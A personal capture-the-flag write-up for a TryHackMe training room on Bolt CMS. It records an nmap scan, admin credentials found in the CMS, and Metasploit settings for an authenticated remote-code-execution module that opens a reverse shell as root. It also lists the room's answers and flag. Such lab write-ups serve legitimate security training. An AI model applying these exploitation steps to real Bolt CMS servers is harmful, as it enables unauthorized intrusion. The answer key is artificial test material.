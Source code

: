 
#CTF #FreeRoom 

https://tryhackme.com/r/room/bolt


```
10.10.11.200

nmap -sC -sS -p- -A $ip

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    (PHP 7.2.32-1)

http://10.10.11.200:800

Jake (Admin)
username: bolt

http://10.10.11.200:8000/entry/message-for-it-department
boltadmin123


http://10.10.11.200:8000/bolt/login

bolt : boltadmin123






```

bolt cms admin login
- domain/bolt
- https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/bolt-cms.html
- https://www.exploit-db.com/exploits/48296
- 

```
What port number has a web server with a CMS running?
8000

What is the username we can find in the CMS?
bolt

What is the password we can find for the username?
boltadmin123

What version of the CMS is installed on the server? (Ex: Name 1.1.1)
bolt 3.7.1

There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?
48296

Metasploit recently added an exploit module for this vulnerability.
Set the **LHOST, LPORT, RHOST, USERNAME, PASSWORD** in msfconsole before running the exploit

search bolt
exploit/unix/webapp/bolt_authenticated_rce 

use bolt_authenticated_rce

set LHOST 10.10.169.217
set LPORT --- 4444
set RHOSTS 10.10.11.200
set USERNAME bolt
set PASSWORD boltadmin123

run 

whoami = root
pwd
	/home/bolt/public/files
cd /home/
ls

flag.txt


Look for flag.txt inside the machine.

THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}

```


needed only some help this time
https://www.youtube.com/watch?v=QBrJDUYtAhI

https://github.com/epi052/feroxbuster